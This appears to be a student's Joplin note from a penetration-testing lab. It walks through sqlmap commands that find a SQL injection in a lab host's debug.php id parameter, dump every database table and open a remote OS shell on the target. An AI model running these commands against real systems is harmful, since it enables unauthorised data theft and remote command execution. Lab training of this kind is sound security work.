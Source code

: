 9.4.5.13

# 9.4.5.13
## 9.4.5.13.1. Use sqlmap to obtain a full dump of the database.

Run sqlmap to test the id parameter. It confirms there is an injection point using parameter 'id' and 4 payloads to do so. It also outputs the back-end is MariaDB
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id"
```
![8043c4ba98260586f8371d1d5f0d0cf1.png](:/bb9de9efc70a444c9ab2e71b138a8107)
![2f6675243451b18d546bb456dc97d11f.png](:/77822323e3a4473d92c20dbd669ca27b)

Dump the contents of all tables in the database. We see that it dumped a CSV file in /home/kali/.sqlmap/output/192.168.214.10/dump/webappdb/users.csv
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --dump
```
![14e8ccdb494d133b6b76f11d7f17a4ff.png](:/9105a2a8ad9c41aaa306f0fa0ae0d778)
![4d86a21e678f9ca178b07f942edd29b9.png](:/ecbe4e2cdce84cb5b639a7f028d22008)



## 9.4.5.13.2. Use sqlmap to obtain an interactive shell.

Try the --os-shell method to upload and execute a remote command shell on the Windows machine. We see that we can run commands such as whoami, ipconfig, and dir
```plaintext
kali@kali:~$ sqlmap -u http://192.168.214.10/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```
![5782b8c78f2771bfd80cf7c66b19fa17.png](:/ca5c682993064f648f9e9bd14fe593e4)
![84df895deb6d14d985d702074182cf58.png](:/3cea1b4a9fc545f8a9e4074a0750832c)
![382ed146b5b40396f900f539136aef3f.png](:/a411f36aea154461bdf535cebb741433)





id: 29e9af346c884afca8ae15475288fe68
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:39:44.230Z
updated_time: 2020-09-22T09:08:53.411Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:39:44.230Z
user_updated_time: 2020-09-22T09:08:53.411Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1